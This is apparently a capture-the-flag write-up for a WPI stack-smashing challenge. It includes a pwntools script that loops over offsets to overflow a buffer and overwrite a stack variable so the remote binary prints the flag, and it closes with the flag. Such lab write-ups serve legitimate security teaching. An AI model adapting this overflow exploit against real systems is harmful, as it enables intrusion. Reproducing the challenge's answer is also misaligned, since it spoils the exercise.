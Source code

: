 # $m4$h

Simple stack smashing challenge

Connect on nc smash184384.wpictf.xyz 15724.

Press enter once after connecting

Author: Iv

## Challenge

We're given source code for a simple binary vulnerable to a buffer overflow attack.
There is a variable on the stack which, if set to the correct number, will make the program print the flag.

## Solution

We can overflow the buffer and overwrite the stack variable with the desired value to print the flag.

## Exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host smash184384.wpictf.xyz --port 15724
from pwn import *

# Set up pwntools for the correct architecture
context.update(arch='i386')
exe = './path/to/binary'

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'smash184384.wpictf.xyz'
port = int(args.PORT or 15724)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

i = 0

while True:
    io = start()

    print(i)
    payload = flat({
        i: 923992130,
        })

    print(payload)
    io.sendline(payload)
    
    res = io.recvline()
    print(res)
    if b'very normal' not in res:
        break

    io.close()
    i += 1

io.interactive()
```

## Flag

`WPI{ju5t!n|$bR#4tht4k!n6}`

